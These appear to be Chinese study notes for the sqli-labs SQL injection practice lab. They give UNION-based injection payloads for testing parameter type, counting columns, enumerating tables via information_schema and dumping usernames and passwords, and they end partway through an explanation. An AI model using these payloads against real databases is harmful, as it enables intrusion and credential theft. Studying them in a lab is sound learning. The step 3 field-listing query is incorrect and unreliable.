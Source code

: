 ## 三、sqli labs

### 1. 判断字符型还是数值型

```
输入:
	正常内容' --+
		正常 -> 字符
		报错 -> 数字
```

### 2. 判断列数的两种办法

```
?id=1' union select 1,2,3,4 --+
?id=1' order by 4 --+
```

### 3. 普通回显注入 - 步骤

1. 确定列数与回显与否

   ```
   ?id=1' union select 1,2,3,...--+
   ```

2. inforamtion_schema 查当前数据库中 所有表

   ```
   id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema= database()),3--+
   ```

3. inforamtion_schema 查看当前数据库 所有表的 所有字段 （因为你不知道在哪张表里）

   ```
   id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema= '表1'),3--+
   ```

   ```
   id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema= '表2'),3--+
   ```

   ....

4. 有了每张表的名称，字段，想查什么查什么

   ```
   ?id=-1 union select 1,group_concat(concat_ws(0x3a,username,password)),3 from security.users --+
   ```

#### 细节：group_concat(concat_ws(0x3a 的作用

假如表是：

```
username | password
---------|----------
admin    | admin123
user1    | pass1234
```
